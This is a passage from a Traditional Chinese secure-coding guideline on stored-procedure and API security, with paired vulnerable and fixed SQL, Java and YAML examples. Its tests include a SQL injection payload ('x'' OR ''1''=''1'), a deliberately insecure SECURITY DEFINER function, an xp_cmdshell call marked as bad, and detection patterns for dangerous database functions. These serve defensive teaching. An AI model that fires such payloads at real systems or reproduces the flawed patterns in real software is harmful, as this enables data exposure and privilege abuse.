CALL count_customers_bad('name', 'x'' OR ''1''=''1', ?)@
-- 預期結果：2
```

```sql
-- [Db2] ✅ SCG-SP-001、SCG-SP-002：欄位只能是允許清單中的常數；值以參數標記 ? 綁定
CREATE OR REPLACE PROCEDURE count_customers(IN p_col VARCHAR(30), IN p_val VARCHAR(100), OUT p_cnt INTEGER)
LANGUAGE SQL
BEGIN
    DECLARE v_col VARCHAR(30);
    DECLARE v_sql VARCHAR(400);
    DECLARE c1 CURSOR FOR s1;
    SET v_col = CASE UPPER(p_col)
                    WHEN 'NAME' THEN 'NAME'
                    WHEN 'EMAIL' THEN 'EMAIL'
                    WHEN 'BRANCH_CODE' THEN 'BRANCH_CODE'
                    ELSE NULL
                END;
    IF v_col IS NULL THEN
        SIGNAL SQLSTATE '75001' SET MESSAGE_TEXT = 'column not allowed';
    END IF;
    SET v_sql = 'SELECT COUNT(*) FROM customer WHERE ' || v_col || ' = ?';
    PREPARE s1 FROM v_sql;
    OPEN c1 USING p_val;
    FETCH c1 INTO p_cnt;
    CLOSE c1;
END@
CALL count_customers('name', 'x'' OR ''1''=''1', ?)@
-- 預期結果：0
CALL count_customers('password_hash', 'x', ?)@
-- 預期錯誤：column not allowed
```

#### 🔍 11.1 審查與驗證

- **自動檢查：** 以 `git grep -nE "EXECUTE IMMEDIATE|EXEC *\(|EXECUTE +'|PREPARE "` 盤點所有動態 SQL，逐一確認值以綁定變數傳入；PostgreSQL 可查詢 `pg_proc.prosrc` 中含 `EXECUTE` 與 `||` 的函式；每個預存程序都應有以注入載荷呼叫的測試（例如 pgTAP、tSQLt、utPLSQL）。
- **人工審查問題：**
  1. 動態 SQL 真的必要嗎？很多「動態」需求（選擇性的篩選條件）可以用靜態 SQL 的 `(p_x IS NULL OR col = p_x)` 寫法完成。
  2. `QUOTENAME`、`format('%I')` 只保證識別字被正確引用，**不保證它是允許查詢的欄位**；是否同時有允許清單？
  3. T-SQL 的 `sp_executesql` 是否真的把值放在第三個以後的參數，而不是先串進 `@sql`？
- **AI 常見錯誤：** 以 `REPLACE(@val, '''', '''''')` 跳脫後串接；在 T-SQL 中以 `EXEC(@sql)` 執行串接好的字串；Oracle 中以 `DBMS_ASSERT.ENQUOTE_LITERAL` 處理後串接值（應改用綁定變數）。

### 11.2 執行權限與最小權限

預存程序可以作為應用程式存取資料的「唯一介面」：應用程式帳號只有執行程序的權限，沒有直接讀寫表格的權限。這是很有效的最小權限設計，但前提是程序本身的權限設定正確。

| 編號 | 等級 | 規則 | 驗證方式 |
| --- | --- | --- | --- |
| `SCG-SP-003` | 必須 | 以定義者權限執行的程序（PostgreSQL `SECURITY DEFINER`、Oracle `AUTHID DEFINER`、SQL Server `EXECUTE AS OWNER`）不得包含以參數組成的動態 SQL；PostgreSQL 的 `SECURITY DEFINER` 函式必須以 `SET search_path` 固定搜尋路徑（並把 `pg_temp` 放在最後），避免呼叫者以同名物件劫持 | 🤖 目錄查詢（`pg_proc.prosecdef` 且 `proconfig` 無 `search_path`）；👁 程式碼審查 |
| `SCG-SP-004` | 必須 | 應用程式帳號只能被授予它需要的程序的 `EXECUTE` 權限；PostgreSQL 必須撤銷新函式預設授予 `PUBLIC` 的 `EXECUTE` 權限（`REVOKE EXECUTE ... FROM PUBLIC` 並設定 `ALTER DEFAULT PRIVILEGES`） | 🧪 以其他帳號呼叫被拒的測試；🤖 目錄查詢 |

```sql
-- [PostgreSQL] ✅ SCG-SP-003、SCG-SP-004：SECURITY DEFINER 函式固定 search_path；撤銷 PUBLIC 的預設執行權限；只授權給應用程式角色
CREATE SCHEMA app;
CREATE TABLE app.account (id integer PRIMARY KEY, owner text NOT NULL, balance numeric(12,2) NOT NULL);
INSERT INTO app.account VALUES (1, 'alice', 100), (2, 'bob', 50);

CREATE ROLE web_app LOGIN PASSWORD 'change-me';
CREATE ROLE other_app LOGIN PASSWORD 'change-me';
ALTER DEFAULT PRIVILEGES IN SCHEMA app REVOKE EXECUTE ON FUNCTIONS FROM PUBLIC;
GRANT USAGE ON SCHEMA app TO web_app;

CREATE FUNCTION app.my_balance(p_owner text) RETURNS numeric
LANGUAGE sql STABLE SECURITY DEFINER
SET search_path = app, pg_temp
AS $$ SELECT balance FROM account WHERE owner = p_owner $$;

REVOKE EXECUTE ON FUNCTION app.my_balance(text) FROM PUBLIC;
GRANT EXECUTE ON FUNCTION app.my_balance(text) TO web_app;

SET ROLE web_app;
SELECT app.my_balance('alice');
-- 預期結果：100.00
RESET ROLE;
SET ROLE other_app;
SELECT app.my_balance('alice');
-- 預期錯誤：permission denied for schema app
RESET ROLE;

SELECT p.proname, p.prosecdef, p.proconfig
  FROM pg_proc p JOIN pg_namespace n ON n.oid = p.pronamespace
 WHERE n.nspname = 'app' AND p.prosecdef AND NOT coalesce(array_to_string(p.proconfig, ',') LIKE '%search_path=%', false);
-- 預期結果：（0 筆，所有 SECURITY DEFINER 函式都固定了 search_path）
```

```sql
-- [PostgreSQL] ❌ SCG-SP-003：SECURITY DEFINER 卻沒有固定 search_path，也沒有撤銷 PUBLIC 的執行權限。
--   呼叫者可以在自己能建立物件的 schema 放一個同名的函式或運算子，讓它以擁有者權限執行
CREATE FUNCTION public.audit_count() RETURNS bigint
LANGUAGE sql SECURITY DEFINER
AS $$ SELECT count(*) FROM app.account $$;
```

```sql
-- [Oracle] ✅ SCG-SP-004：應用程式帳號只被授予程序的執行權限，沒有表格權限；程序以定義者權限存取表格
CREATE OR REPLACE PROCEDURE get_customer_name(p_id IN NUMBER, p_name OUT VARCHAR2)
AUTHID DEFINER AS
BEGIN
    SELECT name INTO p_name FROM customer WHERE id = p_id;
END;
/
GRANT EXECUTE ON get_customer_name TO PUBLIC;
REVOKE EXECUTE ON get_customer_name FROM PUBLIC;
SELECT COUNT(*) AS public_grants FROM user_tab_privs WHERE table_name = 'GET_CUSTOMER_NAME' AND grantee = 'PUBLIC';
-- 預期結果：0
```

```sql
-- [SQL Server] ✅ SCG-SP-004：應用程式使用者只有 EXECUTE 權限，透過擁有權鏈結讀取表格；直接查詢表格被拒
CREATE USER web_app WITHOUT LOGIN;
GRANT EXECUTE ON OBJECT::dbo.find_customers TO web_app;
GO
EXECUTE AS USER = 'web_app';
BEGIN TRY
    SELECT id FROM dbo.customer;
END TRY
BEGIN CATCH
    SELECT ERROR_NUMBER() AS err;
END CATCH;
REVERT;
-- 預期結果：229
```

> **SQL Server 的擁有權鏈結與動態 SQL：** 程序內的靜態 SQL 透過擁有權鏈結執行，呼叫者不需要表格權限；但 `sp_executesql` 執行的動態 SQL 會中斷擁有權鏈結，以呼叫者的權限執行。上例 `dbo.find_customers` 以 `web_app` 呼叫時會因沒有表格的 `SELECT` 權限而失敗。正確的處理方式是以憑證簽署程序（module signing）授予最小權限，而**不是**加上 `EXECUTE AS OWNER` 或把表格權限授予 `web_app`。

```sql
-- [Db2] ✅ SCG-SP-004：只授予程序的執行權限
CREATE ROLE web_app@
GRANT EXECUTE ON PROCEDURE count_customers TO ROLE web_app@
SELECT COUNT(*) FROM syscat.routineauth a
  JOIN syscat.routines r ON r.routineschema = a.schema AND r.specificname = a.specificname
 WHERE r.routinename = 'COUNT_CUSTOMERS' AND a.grantee = 'PUBLIC'@
-- 預期結果：0
```

#### 🔍 11.2 審查與驗證

- **自動檢查：** PostgreSQL 以上例最後的目錄查詢找出沒有固定 `search_path` 的 `SECURITY DEFINER` 函式；以 `SELECT ... FROM information_schema.routine_privileges WHERE grantee = 'PUBLIC'` 找出開放給 `PUBLIC` 的函式。Oracle 查詢 `DBA_PROCEDURES.AUTHID` 與 `DBA_TAB_PRIVS`；SQL Server 查詢 `sys.database_permissions`；Db2 查詢 `SYSCAT.ROUTINEAUTH`。
- **人工審查問題：**
  1. 以定義者權限執行的程序中，有沒有動態 SQL？有沒有以參數決定要存取的物件？
  2. 應用程式帳號除了 `EXECUTE` 之外，是否還有表格的直接權限？若有，「只能透過程序存取」的設計就失效了。
- **AI 常見錯誤：** 為了解決權限錯誤而加上 `SECURITY DEFINER` 或 `EXECUTE AS OWNER`；忘記 PostgreSQL 新函式預設可被 `PUBLIC` 執行；`GRANT ALL ON SCHEMA`。

### 11.3 錯誤處理、稽核與危險功能

| 編號 | 等級 | 規則 | 驗證方式 |
| --- | --- | --- | --- |
| `SCG-SP-005` | 必須 | 預存程序不得吞掉錯誤（Oracle `WHEN OTHERS THEN NULL`、T-SQL 空的 `CATCH`、PL/pgSQL 空的 `EXCEPTION WHEN OTHERS`）；捕捉例外時必須記錄必要的情境並重新拋出；T-SQL 修改資料的程序應設定 `SET XACT_ABORT ON`，確保錯誤時整個交易回復 | 🤖 Oracle 編譯警告 `PLW-06009`；🤖 SQLFluff；👁 程式碼審查 |
| `SCG-SP-006` | 必須 | 應用程式的預存程序不得使用作業系統與網路存取功能（SQL Server `xp_cmdshell`、`OPENROWSET` 存取檔案、Oracle `UTL_FILE`、`UTL_HTTP`、`DBMS_SCHEDULER` 外部工作、PostgreSQL `COPY ... PROGRAM`、`dblink` 連往任意主機、Db2 外部常式）；這些功能應在伺服器層級停用，確有需要時另設專用帳號並經核准 | 🤖 組態檢查（`sp_configure`、權限查詢）；👁 程式碼審查 |

```sql
-- [Oracle] ❌ SCG-SP-005：WHEN OTHERS THEN NULL 讓轉帳失敗卻回報成功，Oracle 編譯時會提出 PLW-06009 警告
ALTER SESSION SET PLSQL_WARNINGS = 'ENABLE:ALL';
CREATE OR REPLACE PROCEDURE debit_bad(p_id IN NUMBER, p_amt IN NUMBER) AS
BEGIN
    UPDATE customer SET name = name WHERE id = p_id;
    IF p_amt <= 0 THEN
        RAISE_APPLICATION_ERROR(-20002, 'invalid amount');
    END IF;
EXCEPTION
    WHEN OTHERS THEN
        NULL;
END;
/
SELECT attribute, text FROM user_errors WHERE name = 'DEBIT_BAD' AND text LIKE '%PLW-06009%';
-- 預期結果：PLW-06009
```

```sql
-- [Oracle] ✅ SCG-SP-005：記錄情境後以 RAISE 重新拋出；呼叫端可以知道失敗
CREATE TABLE proc_error_log (
    logged_at TIMESTAMP DEFAULT SYSTIMESTAMP,
    proc_name VARCHAR2(60),
    err_code  NUMBER,
    detail    VARCHAR2(400)
);
CREATE OR REPLACE PROCEDURE debit(p_id IN NUMBER, p_amt IN NUMBER) AS
    PROCEDURE log_error(p_code NUMBER, p_detail VARCHAR2) IS
        PRAGMA AUTONOMOUS_TRANSACTION;
    BEGIN
        INSERT INTO proc_error_log (proc_name, err_code, detail) VALUES ('DEBIT', p_code, SUBSTR(p_detail, 1, 400));
        COMMIT;
    END;
BEGIN
    IF p_amt <= 0 THEN
        RAISE_APPLICATION_ERROR(-20002, 'invalid amount');
    END IF;
    UPDATE customer SET name = name WHERE id = p_id;
EXCEPTION
    WHEN OTHERS THEN
        log_error(SQLCODE, 'id=' || p_id || ' ' || DBMS_UTILITY.FORMAT_ERROR_BACKTRACE);
        RAISE;
END;
/
BEGIN
    debit(1, -5);
END;
/
-- 預期錯誤：ORA-20002
```

```sql
-- [SQL Server] ✅ SCG-SP-005：XACT_ABORT 確保錯誤時整筆交易回復；CATCH 中以 THROW 重新拋出原始錯誤
CREATE TABLE dbo.account (id int PRIMARY KEY, balance decimal(12,2) NOT NULL CHECK (balance >= 0));
INSERT INTO dbo.account VALUES (1, 100), (2, 50);
GO
CREATE OR ALTER PROCEDURE dbo.transfer @from int, @to int, @amt decimal(12,2)
AS
BEGIN
    SET NOCOUNT ON;
    SET XACT_ABORT ON;
    BEGIN TRY
        BEGIN TRANSACTION;
        UPDATE dbo.account SET balance = balance + @amt WHERE id = @to;
        UPDATE dbo.account SET balance = balance - @amt WHERE id = @from;
        COMMIT TRANSACTION;
    END TRY
    BEGIN CATCH
        IF @@TRANCOUNT > 0 ROLLBACK TRANSACTION;
        THROW;
    END CATCH;
END;
GO
BEGIN TRY
    EXEC dbo.transfer @from = 2, @to = 1, @amt = 80;
END TRY
BEGIN CATCH
    PRINT 'transfer failed';
END CATCH;
SELECT balance FROM dbo.account WHERE id = 1;
-- 預期結果：100.00
```

```sql
-- [SQL Server] ✅ SCG-SP-006：確認危險功能在伺服器層級為停用狀態
SELECT name, CAST(value_in_use AS int) AS value_in_use
  FROM sys.configurations
 WHERE name IN ('xp_cmdshell', 'Ole Automation Procedures', 'Ad Hoc Distributed Queries', 'clr enabled');
-- 預期結果：全部為 0
```

```sql
-- [PostgreSQL] ✅ SCG-SP-006：確認應用程式角色沒有執行伺服器程式與讀寫伺服器檔案的能力
SELECT r.rolname,
       pg_has_role(r.rolname, 'pg_execute_server_program', 'MEMBER') AS can_run_program,
       pg_has_role(r.rolname, 'pg_read_server_files', 'MEMBER')      AS can_read_files,
       r.rolsuper
  FROM pg_roles r
 WHERE r.rolname = 'web_app';
-- 預期結果：web_app | f | f | f
```

```sql
-- [SQL Server] ❌ SCG-SP-006：在應用程式的程序中呼叫作業系統命令
EXEC xp_cmdshell 'dir C:\exports';
-- 預期錯誤：xp_cmdshell（SQL Server 預設停用，會回傳 Msg 15281；不得為了這段程式碼而啟用它）
```

#### 🔍 11.3 審查與驗證

- **自動檢查：** Oracle 以 `ALTER SESSION SET PLSQL_WARNINGS = 'ENABLE:ALL'` 編譯，`PLW-06009` 會標出 `WHEN OTHERS` 沒有重新拋出的地方；以程式碼搜尋 `WHEN OTHERS THEN\s+NULL`、`BEGIN CATCH\s+END CATCH`、`xp_cmdshell`、`UTL_HTTP`、`COPY .* PROGRAM`；每次部署前執行上例的組態查詢。
- **人工審查問題：**
  1. 錯誤訊息是否會被應用程式原樣回傳給使用者？（資料庫的錯誤訊息常包含表格與欄位名稱，見第 14 章。）
  2. 程序中有沒有寫死的密碼或連線字串（例如 `dblink` 的連線參數）？程序原始碼可以被有權限的使用者從系統目錄讀出。
- **AI 常見錯誤：** 以 `WHEN OTHERS THEN NULL` 或空的 `CATCH` 「避免程式中斷」；T-SQL 程序沒有 `SET XACT_ABORT ON`；以 `xp_cmdshell` 匯出檔案。

## 12. API 安全

API 是現代系統的主要攻擊面：前端、行動 App、合作夥伴、內部服務都透過 API 存取資料，而 API 把資料與業務邏輯直接暴露給任何能送出 HTTP 請求的人。本章依 [OWASP API Security Top 10 2023](https://api-security.owasp.org/editions/2023/en/0x11-t10/) 整理 API 特有的規則；身分驗證、授權、輸入驗證等共通規則見第 2–4 章。API 的設計治理（版本策略、生命週期）見 [系統設計指引]() 第 19 章。

### 12.1 OWASP API Security Top 10 對照

| 編號 | 風險 | 典型情境 | 本指引的規則 |
| --- | --- | --- | --- |
| API1:2023 | 物件層級授權失效 | 改 URL 中的 ID 就能看別人的資料 | `SCG-ACL-001`、`SCG-ACL-002`、`SCG-ACL-008` |
| API2:2023 | 身分驗證失效 | 權杖不驗證簽章、沒有暴力破解防護 | `SCG-AUTH-004`、`SCG-AUTH-011` |
| API3:2023 | 物件屬性層級授權失效 | 大量賦值、回應包含不該看到的欄位 | `SCG-ACL-005`、`SCG-API-001` |
| API4:2023 | 資源消耗不受限制 | 沒有速率限制、分頁筆數不受限 | `SCG-GEN-009`、`SCG-API-004`、`SCG-API-005` |
| API5:2023 | 功能層級授權失效 | 一般使用者能呼叫管理 API | `SCG-ACL-004`、`SCG-GEN-010` |
| API6:2023 | 敏感業務流程存取不受限制 | 搶購機器人、大量註冊、優惠券濫用 | `SCG-GEN-013`、`SCG-API-006` |
| API7:2023 | 伺服器端請求偽造（SSRF） | 以使用者提供的網址抓取資料 | `SCG-IO-005`（第 13.3 節） |
| API8:2023 | 安全設定錯誤 | CORS 過寬、錯誤訊息洩漏、缺少安全標頭 | `SCG-JAVA-008`、`SCG-API-002`、第 17 章 |
| API9:2023 | 資產管理不當 | 舊版 API、測試端點仍在正式環境 | `SCG-API-007` |
| API10:2023 | 不安全地使用第三方 API | 信任合作夥伴 API 的回應而不驗證 | `SCG-API-008` |

### 12.2 輸入、輸出與錯誤格式

API 的契約（OpenAPI 文件）不只是說明文件，也是安全控制：它定義了每個欄位的型別、長度、格式與是否允許額外欄位。以契約先行（contract-first）的方式開發時，同一份契約可以產生伺服器端驗證、用戶端程式與測試。

| 編號 | 等級 | 規則 | 驗證方式 |
| --- | --- | --- | --- |
| `SCG-API-001` | 必須 | API 的 OpenAPI 契約必須為每個字串欄位定義 `maxLength`（必要時加上 `pattern` 或 `format`）、為數值定義 `minimum`／`maximum`、為陣列定義 `maxItems`，物件設定 `additionalProperties: false`；回應的 Schema 只能包含呼叫者需要的欄位 | 🤖 Spectral（附錄 B.5 規則集）；🧪 契約測試 |
| `SCG-API-002` | 必須 | API 的錯誤回應必須使用一致的格式（建議 RFC 9457 Problem Details），只包含對呼叫者有用的資訊；不得包含堆疊追蹤、SQL 語句、內部主機名稱、框架版本或例外類別名稱 | 🧪 錯誤情境的回應內容測試；🤖 ZAP `10023`、`90022` |
| `SCG-API-003` | 必須 | API 必須拒絕非預期的 `Content-Type` 與 HTTP 方法（回 415／405），且不得因為 `Content-Type` 不同而改用不同的解析器（例如收到 `application/xml` 就以 XML 解析） | 🧪 以錯誤的 `Content-Type` 與方法呼叫的測試 |

```yaml
# ✅ SCG-API-001：OpenAPI 3.1 契約，每個欄位都有限制，不允許額外欄位
openapi: 3.1.1
info:
  title: Transfer API
  version: 1.0.0
paths:
  /api/transfers:
    post:
      operationId: createTransfer
      requestBody:
        required: true
        content:
          application/json:
            schema:
              $ref: '#/components/schemas/TransferRequest'
      responses:
        '201':
          description: Created
          content:
            application/json:
              schema:
                $ref: '#/components/schemas/TransferResponse'
        '400':
          description: Bad Request
          content:
            application/problem+json:
              schema:
                $ref: '#/components/schemas/Problem'
components:
  schemas:
    TransferRequest:
      type: object
      additionalProperties: false
      required: [toAccount, amount]
      properties:
        toAccount:
          type: string
          pattern: '^\d{12,14}$'
          maxLength: 14
        amount:
          type: integer
          minimum: 1
          maximum: 2000000
        memo:
          type: string
          maxLength: 50
    TransferResponse:
      type: object
      additionalProperties: false
      required: [id, status]
      properties:
        id:
          type: string
          format: uuid
          maxLength: 36
        status:
          type: string
          enum: [PENDING, COMPLETED]
    Problem:
      type: object
      additionalProperties: true          # RFC 9457 允許擴充欄位（例如 traceId）
      properties:
        type:
          type: string
          format: uri
          maxLength: 200
        title:
          type: string
          maxLength: 200
        status:
          type: integer
          minimum: 100
          maximum: 599
        detail:
          type: string
          maxLength: 500
```

```java
// ✅ SCG-API-002：統一的錯誤處理。驗證錯誤回 400 並列出欄位；未預期的例外只回一般訊息與追蹤碼，詳細內容寫入日誌
package com.example.scg.api;

import java.net.URI;
import java.util.List;
import java.util.UUID;
import org.slf4j.Logger;
import org.slf4j.LoggerFactory;
import org.springframework.http.HttpStatus;
import org.springframework.http.ProblemDetail;
import org.springframework.security.access.AccessDeniedException;
import org.springframework.security.core.AuthenticationException;
import org.springframework.web.ErrorResponseException;
import org.springframework.web.bind.MethodArgumentNotValidException;
import org.springframework.web.bind.annotation.ExceptionHandler;
import org.springframework.web.bind.annotation.RestControllerAdvice;

@RestControllerAdvice
public class ApiExceptionHandler {

    private static final Logger LOG = LoggerFactory.getLogger(ApiExceptionHandler.class);

    @ExceptionHandler(MethodArgumentNotValidException.class)
    ProblemDetail invalid(MethodArgumentNotValidException ex) {
        ProblemDetail pd = ProblemDetail.forStatusAndDetail(HttpStatus.BAD_REQUEST, "請求內容不符合規格");
        pd.setType(URI.create("https://api.example.com/problems/validation"));
        List<String> fields = ex.getBindingResult().getFieldErrors().stream()
                .map(f -> f.getField())                        // 只回欄位名稱，不回被拒絕的值（可能含個資）
                .distinct()
                .toList();
        pd.setProperty("invalidFields", fields);
        return pd;
    }

    /** 已經帶有狀態碼的例外（例如 ResponseStatusException 的 404）沿用原本的狀態與內容。 */
    @ExceptionHandler(ErrorResponseException.class)
    ProblemDetail known(ErrorResponseException ex) {
        return ex.getBody();
    }

    @ExceptionHandler(Exception.class)
    ProblemDetail unexpected(Exception ex) throws Exception {
        if (ex instanceof AccessDeniedException || ex instanceof AuthenticationException) {
            throw ex;                                          // 交給 Spring Security 回 403／401，不可變成 500
        }
        String traceId = UUID.randomUUID().toString();
        LOG.error("event=unhandled_exception traceId={}", traceId, ex);   // 堆疊追蹤只寫入伺服器日誌
        ProblemDetail pd = ProblemDetail.forStatusAndDetail(HttpStatus.INTERNAL_SERVER_ERROR,
                "系統發生錯誤，請提供追蹤碼給客服：" + traceId);
        pd.setProperty("traceId", traceId);
        return pd;
    }
}
```

```json
{
  "_comment": "❌ SCG-API-002：把例外原樣回傳。洩漏了資料庫種類、表格與欄位名稱、框架版本與內部類別",
  "timestamp": "2026-10-08T09:15:22.123+00:00",
  "status": 500,
  "error": "Internal Server Error",
  "exception": "org.springframework.jdbc.BadSqlGrammarException",
  "message": "PreparedStatementCallback; bad SQL grammar [SELECT id, card_no FROM payment_card WHERE owner = ?]; nested exception is org.postgresql.util.PSQLException: ERROR: column \"owner\" does not exist",
  "trace": "org.springframework.jdbc.BadSqlGrammarException: ...\n\tat com.example.pay.CardRepository.find(CardRepository.java:42)..."
}
```

```yaml
# ✅ SCG-API-002：Spring Boot 的預設錯誤頁也要關閉細節（application.yml）
server:
  error:
    include-stacktrace: never
    include-message: never
    include-binding-errors: never
    include-exception: false
spring:
  mvc:
    problemdetails:
      enabled: true
```

```java
// ✅ SCG-API-003：Controller 明確宣告接受與產生的媒體型別；其他 Content-Type 由 Spring 回 415
package com.example.scg.api;

import jakarta.validation.Valid;
import jakarta.validation.constraints.Max;
import jakarta.validation.constraints.Min;
import jakarta.validation.constraints.NotNull;
import jakarta.validation.constraints.Pattern;
import jakarta.validation.constraints.Size;
import java.util.UUID;
import org.springframework.http.HttpStatus;
import org.springframework.http.MediaType;
import org.springframework.web.bind.annotation.PostMapping;
import org.springframework.web.bind.annotation.RequestBody;
import org.springframework.web.bind.annotation.ResponseStatus;
import org.springframework.web.bind.annotation.RestController;

@RestController
public class TransferController {

    public record TransferRequest(
            @NotNull @Pattern(regexp = "^\\d{12,14}$") String toAccount,
            @Min(1) @Max(2_000_000) long amount,
            @Size(max = 50) String memo) {
    }

    public record TransferResponse(UUID id, String status) {
    }

    @PostMapping(path = "/api/transfers",
            consumes = MediaType.APPLICATION_JSON_VALUE,
            produces = MediaType.APPLICATION_JSON_VALUE)
    @ResponseStatus(HttpStatus.CREATED)
    public TransferResponse create(@Valid @RequestBody TransferRequest req) {
        return new TransferResponse(UUID.randomUUID(), "PENDING");
    }
}
```

#### 🔍 12.2 審查與驗證

- **自動檢查：** 以 Spectral 搭配附錄 B.5 的規則集檢查 OpenAPI 文件（字串欄位缺少 `maxLength`、物件缺少 `additionalProperties: false` 時報錯）；以契約測試確認伺服器端實際行為與契約一致；ZAP 被動掃描 `90022`（應用程式錯誤揭露）、`10023`（除錯錯誤訊息）。
- **人工審查問題：**
  1. 回應 DTO 是否只包含必要欄位？以 Entity 直接序列化的回應是否會在新增欄位時自動外洩？
  2. 錯誤訊息是否透露「帳號存在但密碼錯誤」、「資料存在但無權存取」這類資訊？
  3. 驗證錯誤的回應是否原樣回傳了使用者輸入的值（可能造成反射型 XSS 或個資外洩）？
- **AI 常見錯誤：** 以 `e.getMessage()` 作為 API 的錯誤訊息；OpenAPI 文件中的字串欄位都沒有 `maxLength`；`@RequestBody Map<String, Object>` 接受任意內容；以 `@ExceptionHandler(Exception.class)` 攔截所有例外，卻沒有讓 `ResponseStatusException` 與 Spring Security 的 `AccessDeniedException` 通過，結果 404 與 403 全部變成 500（本指引的驗證過程中，4.4 的授權測試就因此失敗，才修正成上面的寫法）。

### 12.3 敏感業務流程與第三方 API

| 編號 | 等級 | 規則 | 驗證方式 |
| --- | --- | --- | --- |
| `SCG-API-006` | 應該 | 非冪等且有業務影響的操作（付款、轉帳、下單、寄送通知）應支援 `Idempotency-Key`：伺服器記錄每個鍵的處理結果，重複的請求回傳第一次的結果而不重複執行，避免重送與重放造成重複扣款 | 🧪 以相同鍵重送的測試 |
| `SCG-API-007` | 必須 | 正式環境不得存在除錯、測試、範例端點（例如 `/test`、`/debug`、Swagger UI 的未授權存取、`/h2-console`）；已停用的 API 版本必須下線，不得只是「文件不再列出」；所有對外 API 必須登錄在 API 清冊中 | 🤖 部署前以路由清單比對 API 清冊；🧪 對已知除錯路徑回 404 的測試 |
| `SCG-API-008` | 必須 | 呼叫第三方 API 時，必須把回應視為不可信的輸入：驗證回應的 Schema 與大小、設定逾時、限制或停用自動重新導向、驗證 TLS 憑證；不得把第三方回應直接寫入資料庫或輸出到頁面 | 🧪 以異常回應（超大、格式錯誤、重新導向）測試；👁 程式碼審查 |

```java
// ✅ SCG-API-006：以 Idempotency-Key 防止重複扣款；鍵與請求內容的雜湊一起保存，鍵相同但內容不同時拒絕
package com.example.scg.api;

import java.time.Duration;
import java.util.Objects;
import java.util.concurrent.ConcurrentHashMap;
import java.util.concurrent.ConcurrentMap;
import java.util.function.Supplier;

public final class IdempotencyStore {

    public record Stored(String requestHash, Object response) { }

    /** 正式環境請改用資料庫表格（以唯一約束保證只有一筆）或 Redis 的 SET NX，並設定保存期限。 */
    private final ConcurrentMap<String, Stored> results = new ConcurrentHashMap<>();
    private final Duration retention;

    public IdempotencyStore(Duration retention) {
        this.retention = retention;
    }

    public Duration retention() {
        return retention;
    }

    public Object execute(String key, String requestHash, Supplier<Object> action) {
        if (key == null || !key.matches("^[A-Za-z0-9-]{16,64}$")) {
            throw new IllegalArgumentException("Idempotency-Key 格式錯誤");
        }
        Stored stored = results.computeIfAbsent(key, k -> new Stored(requestHash, action.get()));
        if (!Objects.equals(stored.requestHash(), requestHash)) {
            throw new IllegalStateException("相同的 Idempotency-Key 不可用於不同的請求內容");   // 回 422
        }
        return stored.response();
    }
}
```

```java
// ✅ SCG-API-006：測試同一個鍵只執行一次
package com.example.scg.api;

import static org.assertj.core.api.Assertions.assertThat;
import static org.assertj.core.api.Assertions.assertThatThrownBy;

import java.time.Duration;
import java.util.concurrent.atomic.AtomicInteger;
import org.junit.jupiter.api.Test;

class IdempotencyStoreTest {

    @Test
    void sameKeyExecutesOnce() {
        var store = new IdempotencyStore(Duration.ofHours(24));
        var calls = new AtomicInteger();
        Object first = store.execute("7c0f4f7e-6b1a-4f7e-9d0a-1f2e3d4c5b6a", "h1", () -> "TX-" + calls.incrementAndGet());
        Object second = store.execute("7c0f4f7e-6b1a-4f7e-9d0a-1f2e3d4c5b6a", "h1", () -> "TX-" + calls.incrementAndGet());
        assertThat(first).isEqualTo(second).isEqualTo("TX-1");
        assertThat(calls).hasValue(1);
    }

    @Test
    void sameKeyDifferentBodyIsRejected() {
        var store = new IdempotencyStore(Duration.ofHours(24));
        store.execute("7c0f4f7e-6b1a-4f7e-9d0a-1f2e3d4c5b6a", "h1", () -> "TX-1");
        assertThatThrownBy(() -> store.execute("7c0f4f7e-6b1a-4f7e-9d0a-1f2e3d4c5b6a", "h2", () -> "TX-2"))
                .isInstanceOf(IllegalStateException.class);
    }
}
```

```yaml
# ✅ SCG-API-007：正式環境關閉 API 文件與除錯介面（application-prod.yml）
springdoc:
  api-docs:
    enabled: false
  swagger-ui:
    enabled: false
spring:
  h2:
    console:
      enabled: false
```

```java
// ✅ SCG-API-008：呼叫第三方匯率 API：逾時、不跟隨重新導向、限制回應大小、以 Schema 驗證後才使用
package com.example.scg.api;

import java.math.BigDecimal;
import java.time.Duration;
import java.util.Map;
import org.springframework.boot.http.client.ClientHttpRequestFactoryBuilder;
import org.springframework.boot.http.client.HttpClientSettings;
import org.springframework.boot.http.client.HttpRedirects;
import org.springframework.web.client.RestClient;

public class RateClient {

    public record Rate(String currency, BigDecimal value) { }

    private static final int MAX_BODY = 64 * 1024;
    private final RestClient client;

    public RateClient(RestClient.Builder builder) {
        var settings = HttpClientSettings.defaults()
                .withConnectTimeout(Duration.ofSeconds(2))
                .withReadTimeout(Duration.ofSeconds(5))
                .withRedirects(HttpRedirects.DONT_FOLLOW);
        this.client = builder
                .baseUrl("https://rates.partner.example.com")
                .requestFactory(ClientHttpRequestFactoryBuilder.detect().build(settings))
                .build();
    }

    public Rate twdRate(String currency) {
        if (!currency.matches("^[A-Z]{3}$")) {
            throw new IllegalArgumentException("幣別格式錯誤");
        }
        byte[] body = client.get().uri("/v1/rates/{c}", currency).retrieve().body(byte[].class);
        if (body == null || body.length > MAX_BODY) {
            throw new IllegalStateException("回應為空或過大");
        }
        Map<?, ?> json = tools.jackson.databind.json.JsonMapper.builder().build().readValue(body, Map.class);
        Object value = json.get("rate");
        if (!(value instanceof Number n) || n.doubleValue() <= 0 || n.doubleValue() > 100_000) {
            throw new IllegalStateException("回應的匯率不合理");
        }
        return new Rate(currency, new BigDecimal(value.toString()));
    }
}
```

#### 🔍 12.3 審查與驗證

- **自動檢查：** 部署前以 `/actuator/mappings`（只在內部環境開啟）或 OpenAPI 文件產生路由清單，與 API 清冊比對；對 `/h2-console`、`/swagger-ui.html`、`/v3/api-docs`、`/actuator/env` 等路徑做黑箱檢查。
- **人工審查問題：**
  1. 第三方 API 的回應是否會被寫入資料庫或顯示給使用者？是否經過驗證與編碼？
  2. 第三方 API 被入侵或回傳錯誤資料時，系統的最壞情況是什麼？
  3. 付款、轉帳等操作在網路逾時後重送，會不會重複執行？
- **AI 常見錯誤：** 呼叫外部 API 時沒有逾時；以 `restTemplate.getForObject(url, Map.class)` 取得後直接使用欄位；把 Swagger UI 在正式環境公開以「方便合作夥伴查詢」。

### 12.4 速率限制

速率限制保護系統免於暴力破解、資料爬取、資源耗盡與業務流程濫用。限制應分層設定：API Gateway 或 WAF 處理全域與依來源 IP 的限制，應用程式處理依使用者、依業務操作的限制（只有應用程式知道「這是同一個使用者在嘗試第 6 次兌換優惠券」）。

| 編號 | 等級 | 規則 | 驗證方式 |
| --- | --- | --- | --- |
